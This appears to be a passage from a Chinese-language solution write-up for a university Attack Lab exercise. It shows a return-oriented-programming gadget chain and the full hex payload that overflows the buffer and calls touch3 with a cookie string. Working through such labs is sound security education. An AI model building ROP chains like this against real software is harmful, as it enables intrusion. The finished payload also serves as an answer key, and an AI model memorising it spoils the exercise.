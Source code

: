 ```
ret

<jmp to add_xy>->0x4019d6
%rax = %rdi + %rsi(初始栈顶 + x，即为cookie的首地址)
ret

<gadget4>->0x4019a2
mov %rax, %rdi #rdi保存cookie首地址
ret
<jmp to touch3>->0x4018fa
```

然后**注意一下正确计算x的值以及在栈上放置x的值，add_xy函数的地址，touch3函数的地址**。保证这些值的使用顺序。

x的值取决于保存%rsp的值和cookie字符串的地址的相对位置。

这个如果实在不确定可以通过GDB慢慢尝试。

最后要注入的字符串为：
```
00 00 00 00 00 00 00 00 /* 40个填充字节 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

ad 1a 40 00 00 00 00 00 /* gadget2 */
a2 19 40 00 00 00 00 00 /* gadget4 */
cc 19 40 00 00 00 00 00 /* gadget3 */
48 00 00 00 00 00 00 00 /* 8字节十六进制x的值 */
dd 19 40 00 00 00 00 00 /* gadget5 */
34 1a 40 00 00 00 00 00 /* gadget8 */
27 1a 40 00 00 00 00 00 /* gadget7 */
d6 19 40 00 00 00 00 00 /* add_xy */
a2 19 40 00 00 00 00 00 /* gadget4 */
fa 18 40 00 00 00 00 00 /* touch3 */

35 39 62 39 39 37 66 61 /* cookie字符串 */
00 00 00 00 00 00 00 00 
```